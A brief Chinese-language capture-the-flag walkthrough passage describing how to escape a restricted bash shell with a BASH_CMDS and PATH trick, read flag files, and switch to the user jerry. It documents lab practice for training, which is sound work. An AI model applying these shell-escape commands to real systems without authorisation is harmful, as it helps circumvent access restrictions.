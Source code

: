 
尝试读取flag3.txt失败

提示-rbash cat命令未找到，即我们处在受限终端



### 绕过-rbash

```
BASH_CMDS[a]=/bin.sh;a
export PATH=$PATH:/bin
```

![image-20250309140726360](./assets/image-20250309140726360.png)



### 读取第三个flag

```
cat flag3.txt
```

![image-20250309140751327](./assets/image-20250309140751327.png)

提示su



### 切换到jerry

```
su - jerry
```

![image-20250309140859123](./assets/image-20250309140859123.png)



### 得到第四个flag

```
cd /home/jerry
ls
cat flag4.txt
```

![image-20250309141553539](./assets/image-20250309141553539.png)
